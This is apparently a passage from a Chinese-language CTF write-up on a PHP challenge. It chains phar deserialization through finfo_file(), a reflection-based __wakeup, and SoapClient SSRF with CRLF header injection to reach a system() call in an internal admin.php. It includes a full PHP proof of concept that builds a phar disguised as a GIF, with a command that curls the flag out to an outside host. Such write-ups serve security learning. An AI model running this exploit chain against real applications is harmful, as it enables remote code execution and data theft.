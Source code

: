这里的`finfo_file()`可以触发`phar反序列化漏洞`。

`getIMIME()`是File类的方法，在File类中有一个很可疑的方法，就是`__wakeup()`

```php
    function __wakeup(){
        $class = new ReflectionClass($this->func);
        $a = $class->newInstanceArgs($this->file_name);
        $a->check();
    }
```

考察ssrf的地方到了.....admin.php仅内网可访问，这里使用SoapClient类发起一个访问

```php
//admin.php    
    function __destruct(){
        system($this->cmd);
    }
```

这里可以带出flag。

附上POC

```php
<?php
class File{
    public $file_name;
    public $type;
    public $func = "SoapClient";
    function __construct($file_name){
        $this->file_name = $file_name;
    }
}
$target = 'http://127.0.0.1/admin.php';
// $target = "http://106.14.153.173:2015";
//$post_string = 'admin=1&&clazz=Mysqli&func1=init&arg1=&func2=real_connect&arg2[0]=xxx.xxx.xxx.xxx&arg2[1]=root&arg2[2]=123&arg2[3]=test&arg2[4]=3306&func3=query&arg3=select%201&ip=xxx.xxx.xxx.xxx&port=xxxx';
$post_string ='admin=1&cmd=curl http://6fe82b486986/`/readflag`&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3=123456'. "\r\n";

$headers = array(
    'X-Forwarded-For: 127.0.0.1',
);
// $b = new SoapClient(null,array("location" => $target,"user_agent"=>"zedd\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,"uri"      => "aaab"));
$arr = array(null, array("location" => $target,"user_agent"=>"zedd\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,"uri"      => "aaab"));
$phar = new Phar("1.phar"); //后缀名必须为phar
$phar->startBuffering();
// <?php __HALT_COMPILER();
$phar->setStub("GIF89a" . "< language='php'>__HALT_COMPILER();</>"); //设置stub
$o = new File($arr);
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");
//签名自动计算
$phar->stopBuffering();
rename("1.phar", "9.gif");
?>
```
